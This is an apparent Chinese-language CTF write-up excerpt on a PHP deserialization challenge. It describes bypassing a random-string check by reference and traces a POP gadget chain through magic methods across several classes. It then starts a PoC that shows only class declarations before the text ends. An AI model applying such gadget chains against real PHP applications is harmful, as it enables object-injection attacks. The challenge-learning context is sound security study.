 这个随机字符串的绕过，用**_地址引用_**即可，然后跳到her类的invoke，再经过serialize跳到sleep方法，再跳到useless的get方法，最后回到her的find函数完毕

![](./images/1700709872-image.png)

值得注意的是important类里sleep执行后引发的useless类的get方法

这里的`**$zhui[$good]();**` 就等同与**`$this->seeyou`\[`$this->seeyou`\]();**

这里我问了问万能的GPT👇

![](./images/1700710018-image.png)

所以说POP链就是：Me->wakeup 👉 her->invoke 👉 important->sleep 👉useless->get 👉 her->find

poc👇

```
<?php
class Me {
    public $qwe;
    public $bro;
    public $secret;

}

class her{
    public $hername='momo';
    public $key=9;
    public $asd;
    public function find() {}
```